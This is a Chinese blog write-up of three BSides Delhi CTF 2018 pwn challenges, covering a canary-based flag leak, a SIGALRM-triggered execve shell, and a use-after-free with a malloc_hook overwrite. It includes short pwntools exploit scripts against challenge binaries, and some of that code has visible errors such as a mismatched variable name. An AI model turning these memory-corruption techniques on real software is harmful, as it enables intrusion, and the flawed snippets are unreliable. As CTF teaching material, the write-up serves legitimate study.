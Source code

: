 <!--yml
category: 未分类
date: 2022-04-26 14:35:01
-->

# BSides Delhi CTF 2018部分pwn题题解_Peanuts_CTF的博客-CSDN博客

> 来源：[https://blog.csdn.net/w12315q/article/details/83684017](https://blog.csdn.net/w12315q/article/details/83684017)

> *本文后部分首发于先知社区*

这个是一个比较基础的国际赛，做完之后的感觉就是其中有些题目很有价值，可以顺便补充一些信号机制、uaf使用的知识。

# canary

这个题目比较简单，就是一个普通的stack smash并没有什么特别的，这里直接上解题思路了

**解题思路**

因为开启了canary，而且flag文件是加载到了bss段之中，所以可以利用_*stack*chk_failed函数进行一个flag的泄漏，泄漏方式就是覆盖arg参数，这个函数就会打印出我们想要的flag了（源码的分析可以参考ctfwiki，这里我就不做过多的分析了）

**exp:**

```
 from pwn import*
    p = process('./canary')
    context.log_level="debug"
    flag = 0x06010A0
    p.recv()
    payload = 'a'*0x178 + p64(flag)
    p.sendline(payload)
    p.interactive() 
```

# easypeasy

这是一道利用linux下信号机制的题目

linux下信号机制记录

```
SIGHUP 1 A 终端挂起或者控制进程终止
SIGINT 2 A 键盘中断（如break键被按下）
SIGQUIT 3 C 键盘的退出键被按下
SIGILL 4 C 非法指令
SIGABRT 6 C 由abort(3)发出的退出指令
SIGFPE 8 C 浮点异常
SIGKILL 9 AEF Kill信号
SIGSEGV 11 C 无效的内存引用
SIGPIPE 13 A 管道破裂: 写一个没有读端口的管道
SIGALRM 14 A 由alarm(2)发出的信号
SIGTERM 15 A 终止信号
SIGUSR1 30,10,16 A 用户自定义信号1
SIGUSR2 31,12,17 A 用户自定义信号2
SIGCHLD 20,17,18 B 子进程结束信号
SIGCONT 19,18,25 进程继续（曾被停止的进程）
SIGSTOP 17,19,23 DEF 终止进程
SIGTSTP 18,20,24 D 控制终端（tty）上按下停止键
SIGTTIN 21,21,26 D 后台进程企图从控制终端读
SIGTTOU 22,22,27 D 后台进程企图从控制终端写
```

这道题要用的就是sigalrm这个机制

**signal函数**

singal()函数声明 void (signal(int sig, void (func)(int)))(int) ，第一个参数为要处理的信号，第二个参数为处理方法

### 程序功能分析

**main函数**

![](img/bc965afd8390c2efc1b18a4006e43fb5.png)

其中有一个alarm，设置的时间是30秒，这在后面会用到 

**child函数**

**![](img/a6d1dd329ed2a202dcb49a43cf6d51b9.png)**

这个函数的第一步先建立啦一个signal信号函数，在有14信号的时候就会对其进行返回，并且调用hander函数。然后在循环中进行赋值，赋给的值会放在bbs段上，如果满足validate*syscall*obj(v0）就会调用raise函数给程序返回一个14的信号，从而调用signal函数。接下来我们看一下：validate*syscall*obj(v0）函数和hander函数 

**validate*syscall*obj函数**

**![](img/686bb81672f23ac1f293e86ec2321dd9.png)**

可以大概看一眼程序，发现当我们输入的eax值为： 1，2，3，60时就会退出循环，然后进行一个raise函数

**hander函数**

**![](img/360742597f6dabc11af468be2f51262e.png)**

有一个看起来像是系统调用的东西再点进去看看 这里会把我们的输入当作参数分别放进寄存器当中，然后执行一个系统调用，这里我们可以利用这个特点，向rax写入59（sys_execve函数的系统调用值），然后布局一下参数，就可以执行我们的getshell函数啦。

**解题思路**

```
一、先布局bss段的参数，第一个为59（sys_execve函数的系统调用值），第一个参数就可以是我们'/bin/sh'这个参数的地址
二、然后等30秒，就会执行alarm然后调用hander函数接着坐等shell啦。
```

### exp：

```
from pwn import *
 context.log_level = 'debug'
 P = process("./easypeasy")
 def set_registers(rax, rdi, rsi,    rdx, rcx, r8, r9):
     p.sendafter('RAX: ', str(rax) + '\n')
     p.sendafter('RDI: ', str(rdi) + '\n')
     p.sendafter('RSI: ', str(rsi) + '\n')
     p.sendafter('RDX: ', str(rdx) + '\n')
     p.sendafter('RCX: ', str(rcx) + '\n')
     p.sendafter('R8: ', str(r8) + '\n')
     p.sendafter('R9: ', str(r9) + '\n')

set_registers(59, 
0x6010A0 + 0x20,0x0,0x0, u64('/bin/   sh\x00'),0,0)
```

## data_bank

题目的名字叫做data*bank，是一个比较简单的国际赛的题但是利用这个题可以复习一下uaf关于泄漏地址和改写malloc*hook的知识。

### 程序功能分析

这里没有对程序进行去符号的处理还是很舒服的 可以大概知道，有add,edit,delete等常规的操作下面进行一一进行分析

**add函数**

**![](img/fb0ff29377bd68ac0ad3ab2ef43afa56.png)**

这里是让我们自己输入index（顺序序列），然后自己决定大小，然后对我们的输入的size有一个check，然后是输入数据，其中get_inp就只是一个自定义的输入函数，其中没有什么特别这里就不截图出来了

**edit函数**

**![](img/54f0711681d7efdadf869922f2b486e5.png)**

这是一个对堆内容在次进行编辑的一个函数，其中可能存在uaf的漏洞

**delete函数**

**![](img/d5619ed8b6356a7a78913cb38ba97ac4.png)**

是一个正常的删除函数，有一个对Double free的检查所以并没有办法进行Double free但是可以看见也没有对index的指针进行清空所以存在uaf的漏洞。

**view函数**

**![](img/b60828ead82149198787236747f57b23.png)**

循环堆进行输入

**exit函数**

正常的退出函数

**保护查看**

**![](img/db3993cf24571ffd723b6cf7c4766c04.png)**

能开的保护基本是全上了

### 思路分析

先讲几个主要的保护绕过

**pie绕过**

首先我们申请一个small bin大小的堆块，然后free掉，其会自己加入至unsortedbin中，fd*next和fd*back都会指向libc，这个时候我们再申请一个合适大小的堆块再view，就可以打印出地址了。（刚入啃的小白可以自己gdb调试一下）

**RELRO绕过**

这个保护导致我们不能成功对got表进行一个写的操作，但是我们可以利用对malloc*hook进行一个程序流的控制(ps:malloc*hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写 malloc_hook 来 getshell）

**完整的利用过程**

```
一、先进行信息泄漏，这个题目比较坑需要申请两个samll bin然后free掉才能有上图的效果，但是不论如何可以泄漏就可以啦
二、寻找到malloc_hook位置之上可以利用的一个位置，需要绕过fastbin对size的一个检查，读者们可以参考一下2017-0ctf-babyheap对这个的绕过，这里我就不多写了。
三、OneGadget的写入
```

**总结**

国际赛里还是有很多对入坑不久的人很友善的比赛的，不是所有比赛都像hitcon，secon一样的。。